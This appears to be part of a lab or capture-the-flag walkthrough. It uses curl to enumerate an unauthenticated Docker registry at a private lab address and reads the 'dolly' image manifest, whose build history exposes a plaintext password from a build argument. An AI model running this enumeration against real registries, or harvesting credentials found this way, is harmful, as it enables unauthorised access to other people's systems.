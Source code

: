 `curl -s http://192.168.56.125:1007/v2/_catalog`:
```json
{"repositories":["dolly"]}
```

`curl -s http://192.168.56.125:1007/v2/dolly/tags/list`:
```json
{"name":"dolly","tags":["latest"]}
```

`curl -s http://192.168.56.125:1007/v2/dolly/manifests/latest`:
```json
{
   "schemaVersion": 1,
   "name": "dolly",
   "tag": "latest",
   "architecture": "amd64",
   "fsLayers": [
      {
         "blobSum": "sha256:5f8746267271592fd43ed8a2c03cee11a14f28793f79c0fc4ef8066dac02e017"
      },
      {
         "blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
      },
      {
         "blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
      },
      {
         "blobSum": "sha256:f56be85fc22e46face30e2c3de3f7fe7c15f8fd7c4e5add29d7f64b87abdaa09"
      }
   ],
   "history": [
      {
         "v1Compatibility": "{\"architecture\":\"amd64\",\"config\":{\"Hostname\":\"10ddd4608cdf\",\"Domainname\":\"\",\"User\":\"\",\"AttachStdin\":true,\"AttachStdout\":true,\"AttachStderr\":true,\"Tty\":true,\"OpenStdin\":true,\"StdinOnce\":true,\"Env\":[\"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\"],\"Cmd\":[\"/bin/sh\"],\"Image\":\"doll\",\"Volumes\":null,\"WorkingDir\":\"\",\"Entrypoint\":null,\"OnBuild\":null,\"Labels\":{}},\"container\":\"10ddd4608cdfd81cd95111ecfa37499635f430b614fa326a6526eef17a215f06\",\"container_config\":{\"Hostname\":\"10ddd4608cdf\",\"Domainname\":\"\",\"User\":\"\",\"AttachStdin\":true,\"AttachStdout\":true,\"AttachStderr\":true,\"Tty\":true,\"OpenStdin\":true,\"StdinOnce\":true,\"Env\":[\"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\"],\"Cmd\":[\"/bin/sh\"],\"Image\":\"doll\",\"Volumes\":null,\"WorkingDir\":\"\",\"Entrypoint\":null,\"OnBuild\":null,\"Labels\":{}},\"created\":\"2023-04-25T08:58:11.460540528Z\",\"docker_version\":\"23.0.4\",\"id\":\"89cefe32583c18fc5d6e6a5ffc138147094daac30a593800fe5b6615f2d34fd6\",\"os\":\"linux\",\"parent\":\"1430f49318669ee82715886522a2f56cd3727cbb7cb93a4a753512e2ca964a15\"}"
      },
      {
         "v1Compatibility": "{\"id\":\"1430f49318669ee82715886522a2f56cd3727cbb7cb93a4a753512e2ca964a15\",\"parent\":\"638e8754ced32813bcceecce2d2447a00c23f68c21ff2d7d125e40f1e65f1a89\",\"comment\":\"buildkit.dockerfile.v0\",\"created\":\"2023-03-29T18:19:24.45578926Z\",\"container_config\":{\"Cmd\":[\"ARG passwd=devilcollectsit\"]},\"throwaway\":true}" ←
      },
      {
         "v1Compatibility": "{\"id\":\"638e8754ced32813bcceecce2d2447a00c23f68c21ff2d7d125e40f1e65f1a89\",\"parent\":\"cf9a548b5a7df66eda1f76a6249fa47037665ebdcef5a98e7552149a0afb7e77\",\"created\":\"2023-03-29T18:19:24.45578926Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c #(nop)  CMD [\\\"/bin/sh\\\"]\"]},\"throwaway\":true}"
      },
      {
         "v1Compatibility": "{\"id\":\"cf9a548b5a7df66eda1f76a6249fa47037665ebdcef5a98e7552149a0afb7e77\",\"created\":\"2023-03-29T18:19:24.348438709Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c #(nop) ADD file:9a4f77dfaba7fd2aa78186e4ef0e7486ad55101cefc1fabbc1b385601bb38920 in / \"]}}"
      }
   ],
```